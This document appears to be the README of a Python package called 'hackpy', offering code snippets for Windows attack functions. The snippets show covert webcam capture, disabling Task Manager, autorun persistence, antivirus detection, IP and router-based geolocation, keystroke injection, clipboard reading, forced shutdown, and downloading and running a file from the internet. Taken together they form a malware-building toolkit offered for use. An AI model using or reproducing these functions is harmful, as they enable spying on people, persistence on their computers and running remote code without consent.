 ![Python](https://www.python.org/static/img/python-logo@2x.png)
# `pip install hackpy` :bomb:

# Example usage:
``` python

# Import modules
import os
import hackpy

```


# Webcam screenshot
``` python
hackpy.webcam(filename = 'screenshot.png', delay = 4500, camera = 1)
```

# TaskManager

``` python
if hackpy.taskmanager.find('iexplore.exe') == True: # If process iexplore.exe found:
    hackpy.taskmanager.kill('iexplore.exe') # Stop iexplore.exe process,
    hackpy.taskmanager.start('firefox.exe') # start firefox.exe process

for process in hackpy.taskmanager.list(): # Return dictonary with all processes
	print( process )

hackpy.taskmanager.disable() # Disable windows taskmgr.exe
hackpy.taskmanager.enable()  # Enable windows taskmgr.exe
```

# Autorun
``` python
# Add cmd.exe to startup
hackpy.autorun('C:\\Windows\\System32\\cmd.exe', state = True)

# Remove cmd.exe from startup
hackpy.autorun('C:\\Windows\\System32\\cmd.exe', state = False)
```

# Detect installed antivirus software on computer:
``` python
data = hackpy.detect_protection()
for antivirus in data:
    print('[!] - Antivirus detected: ' + antivirus + ', install path: ' + data[antivirus])
```

# Information about you IP:
``` python
data = hackpy.whois()
print('[?] - You IP is: ' + data['query'])
print('[?] - You live in: ' + data['country'] + ', country code: ' + data['countryCode'])
# Return dict: {"query", "status", "country", "countryCode", "region", "regionName", "city", "zip", "lat", "lon", "timezone", "isp", "org", "as", "local"}

# Information about other IP:
data = hackpy.whois('216.58.215.110')
print('[?] - Other Information about IP:\n' + str(data))
# Return dict: {"query", "status", "country", "countryCode", "region", "regionName", "city", "zip", "lat", "lon", "timezone", "isp", "org", "as"}

# Get geodata about you IP:
data = hackpy.geoplugin()
print('[?] - Latitude: ' + data['geoplugin_latitude'])
# Return dict: {"geoplugin_request", "geoplugin_status", "geoplugin_delay", "geoplugin_credit", "geoplugin_city", "geoplugin_region", "geoplugin_regionCode", "geoplugin_regionName", "geoplugin_areaCode", "geoplugin_dmaCode", "geoplugin_countryCode", "geoplugin_countryName", "geoplugin_inEU", "geoplugin_euVATrate", "geoplugin_continentCode", "geoplugin_continentName", "geoplugin_latitude", "geoplugin_longitude", "geoplugin_locationAccuracyRadius", "geoplugin_timezone", "geoplugin_currencyCode", "geoplugin_currencySymbol", "geoplugin_currencySymbol_UTF8", "geoplugin_currencyConverter"}
```

# Get router bssid:
``` python
bssid_string = hackpy.router() # BETA
# Find LATITUDE and LONGITUDE with router BSSID:
data = hackpy.bssid_locate(bssid_string)
print('LATITUDE: ' + str(data['lat']) + ', LONGITUDE: ' + str(data['lon']) + ', RANGE: ' + str(data['range']))
```

# Windows messagebox:
``` python
hackpy.messagebox('error', 'LOL', 'System has been killed :D') # none, info, error, warning, question types
```

# Nircmdc commands
``` python
# You can run nircmdc commands in python
hackpy.command.nircmdc('monitor off')
hackpy.command.nircmdc('speak text \"HAHAHAHAHHAH IM FIND YOU!\"')

# Nircmdc reference: https://nircmd.nirsoft.net
```

# System commands
``` python
hackpy.command.system('shutdown -s -t 260')
```

# SendKeyPress:
``` python
hackpy.sendkey('Hello bro{ENTER}')
# Other keys: https://pastebin.com/Ns3P7UiH
```

# Clipboard
``` python
# Get text from clipboard:
data = hackpy.clipboard.get()
print('Text in clipboard is ' + data)

# Set text to clipboard:
hackpy.clipboard.set('Hello from LimerBoy and HackPy!!')
```

# Download python and install it:
``` python
if hackpy.check_python() == False: # Check if python installed on system. False - not installed, True - installed.
	print('Python is not installed, trying to install!')
	hackpy.install_python('3.6.0', path = 'C:\\python36') # Default version is 3.7.0 and install path is C:\python37
else:
	print('Python is installed!')
```

# Load and execute file from internet
``` python
file = hackpy.wget(url)
os.startfile(file)
```

<br> *nircmdc reference: https://nircmd.nirsoft.net* <br>

![SITE](https://i.ibb.co/znRLN0D/image.png)
